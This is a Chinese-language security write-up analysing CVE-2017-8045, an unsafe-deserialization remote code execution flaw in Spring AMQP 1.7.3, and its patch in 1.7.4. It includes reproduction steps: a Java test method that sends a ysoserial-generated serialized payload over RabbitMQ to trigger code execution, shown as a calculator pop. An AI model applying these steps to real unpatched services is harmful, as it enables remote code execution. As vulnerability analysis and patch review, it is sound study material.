 ## Spring AMQP远程代码执行漏洞(CVE-2017-8045)分析

> 最近国外研究人员先后爆出Spring Data REST远程代码执行漏洞(CVE-2017-8046)和Spring AMQP远程代码执行漏洞(CVE-2017-8045)，CVE-2017-8046关注的人比较多，这里对CVE-2017-8045进行简单分析

### 漏洞原因

在Spring AMQP的Message类中，文件路径为spring-amqp/src/main/java/org/springframework/amqp/core/Message.java。getBodyContentAsString方法中将接收到的消息进行反序列化操作，从而导致任意代码执行。代码如下:

```
private String getBodyContentAsString() {
		if (this.body == null) {
			return null;
		}
		try {
			String contentType = (this.messageProperties != null) ? this.messageProperties.getContentType() : null;
			if (MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT.equals(contentType)) {
				return SerializationUtils.deserialize(this.body).toString();
			}
	......
	}
```
可以看到这里如果要触发漏洞，其中一个条件是要将请求的ContentType设置为application/x-java-serialized-object。

```
public static final String CONTENT_TYPE_SERIALIZED_OBJECT = "application/x-java-serialized-object";
```

### 代码分析
先分析存在漏洞的代码版本[spring-amqp-1.7.3.RELEASE](https://github.com/spring-projects/spring-amqp)，整个项目代码中共有两处提供反序列化方法的类，分别是SerializerMessageConverter类和SerializationUtils类。

其中SerializerMessageConverter继承了WhiteListDeserializingMessageConverter类并实现了反序列化方法deserialize，代码如下：

```
private Object deserialize(ByteArrayInputStream inputStream) throws IOException {
		try {
			ObjectInputStream objectInputStream = new ConfigurableObjectInputStream(inputStream,
					this.defaultDeserializerClassLoader) {

				@Override
				protected Class<?> resolveClass(ObjectStreamClass classDesc)
						throws IOException, ClassNotFoundException {
					Class<?> clazz = super.resolveClass(classDesc);
					checkWhiteList(clazz);
					return clazz;
				}

			};
			return objectInputStream.readObject();
		}
		catch (ClassNotFoundException ex) {
			throw new NestedIOException("Failed to deserialize object type", ex);
		}
	}
```

上面代码可以看到在deserialize函数中hook了objectInputStream的resolveClass方法并调用WhiteListDeserializingMessageConverter类的checkWhiteList方法对反序列化的类进行白名单检查，如果反序列化的类不在白名单就抛出异常。WhiteListDeserializingMessageConverter类中同时实现了setWhiteListPatterns方法来设置反序列化的白名单。但在1.7.3版本中并未见到任何地方使用该函数进行白名单设置，所以这个白名单控制还是依赖使用到spring-amqp的开发人员自行设置，如果开发人员不设置依旧可能存在反序列化漏洞。

在SerializationUtils类的反序列化方法中则未进行任何安全校验：

```
public static Object deserialize(byte[] bytes) {
		if (bytes == null) {
			return null;
		}
		try {
			return deserialize(new ObjectInputStream(new ByteArrayInputStream(bytes)));
		}
	......
	public static Object deserialize(ObjectInputStream stream) {
		if (stream == null) {
			return null;
		}
		try {
			return stream.readObject();
		}
		......
	}
```
而本次漏洞触发点getBodyContentAsString函数中调用的正是SerializationUtils的deserialize方法。

### 漏洞利用

Message类中toString方法调用了getBodyContentAsString函数，而该漏洞发现者介绍，该方法在代码中许多错误处理及日志记录中会调用到并给出了相关[demo](https://lgtm.com/blog/static/spring_amqp/Application.java)。该程序只允许接收JSON格式消息，此时使用ysoserial生成payload，并将 Content-Type设置为application/x-java-serialized-object，然后发送消息，因为demo程序只允许接收json格式消息，所以会触发异常，从而调用并将消息带入toString函数触发漏洞执行任意代码。

可以使用[spring-amqp-samples](https://github.com/spring-projects/spring-amqp-samples)中的demo，将Application中container方法中添加：

```
listenerAdapter.setMessageConverter(new Jackson2JsonMessageConverter());
```
在测试用例中修改发送消息格式：

```
public void test() throws Exception {

        InputStream in = new FileInputStream("testfile");
        ByteArrayOutputStream bytestream = new ByteArrayOutputStream();

        int ch;
        while((ch = in.read()) != -1) {
            bytestream.write(ch);
        }

        byte[] data = bytestream.toByteArray();
        Message message = MessageBuilder.withBody(data)
                .setContentType(MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT)
                .setMessageId("8045")
                .setHeader("foo", "test")
                .build();

        rabbitTemplate.convertAndSend(Application.queueName, message);
        receiver.getLatch().await(10000, TimeUnit.MILLISECONDS);
    }
```

安装RabbitMQ，mac下安装使用命令即可：
>brew install rabbitmq

运行RabbitMQ,并在浏览器打开localhost:15672看是否已运行，默认账号密码为guest。在resources目录创建application.properties文件，内容如下：

```
spring.rabbitmq.host=localhost
spring.rabbitmq.port=5672
spring.rabbitmq.username=guest
spring.rabbitmq.password=guest
spring.rabbitmq.virtualHost=
```
使用ysoserial生成payload文件,在pom依赖中添加commons-collections 3.1，接着调试运行即可进入到tosting函数，并弹出计算器：。
![详细图](http://xianzhi.aliyun.com/forum/attachment/thumb/Mon_1709/4_1250798584134789_633cbb47fad8add.png)
### 补丁分析

在修复版本以1.7.4为例，getBodyContentAsString中反序列化接口改为调用SerializerMessageConverter的fromMessage方法将AMQP消息转换为对象，并使用setWhiteListPatterns函数设置了允许被反序列化类的白名单，只允许反序列化java.util.*和java.lang.*开头的类：

```
static {
		SERIALIZER_MESSAGE_CONVERTER.setWhiteListPatterns(Arrays.asList("java.util.*", "java.lang.*"));
	}
```
详细见https://github.com/spring-projects/spring-amqp/commit/36e55998f6352ba3498be950ccab1d5f4d0ce655

### 参考

* https://lgtm.com/blog/spring_amqp_CVE-2017-8045
* http://www.cnvd.org.cn/webinfo/show/4247
* https://pivotal.io/security/cve-2017-8045
* https://jira.spring.io/browse/AMQP-766
* https://xianzhi.aliyun.com/forum/read/2188.html
